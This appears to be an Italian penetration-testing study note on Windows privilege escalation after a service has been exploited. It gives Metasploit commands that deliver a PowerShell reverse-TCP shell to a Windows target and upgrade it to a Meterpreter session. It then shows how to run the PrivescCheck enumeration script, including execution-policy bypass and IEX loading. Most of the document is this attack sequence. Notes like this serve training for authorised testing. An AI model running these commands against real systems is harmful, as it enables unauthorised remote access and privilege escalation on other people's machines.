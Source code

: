 
# Windows Privilege Escalation Vulnerabilities
Nel momento in cui abbiamo exploitato un servizio e quindi abbiamo ottenuto accesso ad un sistema, probabilmente ci ritroveremo con un utente con pochi privilegi e quindi avremo bisogno di elevare i nostri privilegi. <br>
Per poter elevare i prvilegi, ogni procedimento é diverso in base al sistema target, ma il concetto principale é quello di identificare delle vulnerabilitá interne che ci permettano di Procedere con questo passaggio. <br> 

Esiste un tool chiamato `PrivescCheck` su <a href="https://github.com/itm4n/PrivescCheck">GitHub</a> che permette di enumerare le piú comuni configurazioni deboli che possono permetterci di elevare i nostri privilegi. <br>
Per poter eseguire lo script, abbiamo bisogno di trasferirlo nel target per poi eseguirlo sul target stesso: 
```bash
use exploit/multi/script/web_delivery          # modulo per hostare un web server per trasferire un payload
set TARGET PSH\ (Binary)                       # impostiamo il target su powershell 
set payload windows/shell/reverse_tcp
set PSH-EncodedCommand false
set LHOST eth1
# verrà generato del codice PoweShell che dovremo copiare ed incollare in una shell sul sitema target windows
background
use post/multi/manage/shell_to_meterpreter
set LHOST eth1
set LPORT <DIFFPORT>
set SESSION 1
show adbanced
set WIN_TRANSFER VBS
run
# ottenendo una sessione meterpreter
```

ora che abbiamo ottenuto una sessione meterpreter sulla macchina, possiamo trasgerire la cartella del tool PrivescCheck sul target e spostarci al suo interno. <br> 
l'esecuzione del tool dipende dal tipo di shell che abbiamo ottenuto
```cmd
:: shell cmd
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```
```cmd
:: shell PowerShell
set-ExecutionPolicy Bypass -scope process -Force
. .\PrivescCheck.ps1; Invoke-PrivescCheck
```
```cmd
:: shell PowerShell senza modificare la Execution Policy
Get-Content .\PrivescCheck.ps1 | Out-String | IEX
Invoke-PrivescCheck
```
Otterremo cosí numerose informazioni sul sistema che potremmo sfruttare per elevare i nostri privilegi. 
